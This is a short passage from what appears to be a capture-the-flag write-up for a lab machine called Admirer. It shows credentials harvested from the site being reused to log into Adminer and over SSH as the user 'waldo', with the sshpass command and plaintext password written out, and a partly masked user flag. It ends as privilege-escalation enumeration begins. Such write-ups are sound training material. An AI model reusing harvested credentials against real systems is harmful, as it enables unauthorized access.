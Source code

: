   ---------------------------------------------------------------------------------------

The creds from the live site will work to log into Adminer:

![](/img/image-20200925052845895.png)

#### SSH Access

Those creds not only work for the database, but also for SSH access as
waldo:



    root@kali# sshpass -p '&<h5b~yK3F#{PaPB&dA}{H>' ssh waldo@10.10.10.187
    Linux admirer 4.9.0-12-amd64 x86_64 GNU/Linux

    The programs included with the Devuan GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.

    Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    You have new mail.
    Last login: Tue May  5 01:10:46 2020 from 10.10.14.47
    waldo@admirer:~$



And for `user.txt`:



    waldo@admirer:~$ cat user.txt
    890e4d73************************



## Priv: waldo --\> root

### Enumeration

Checking `sudo -l` first pays off:



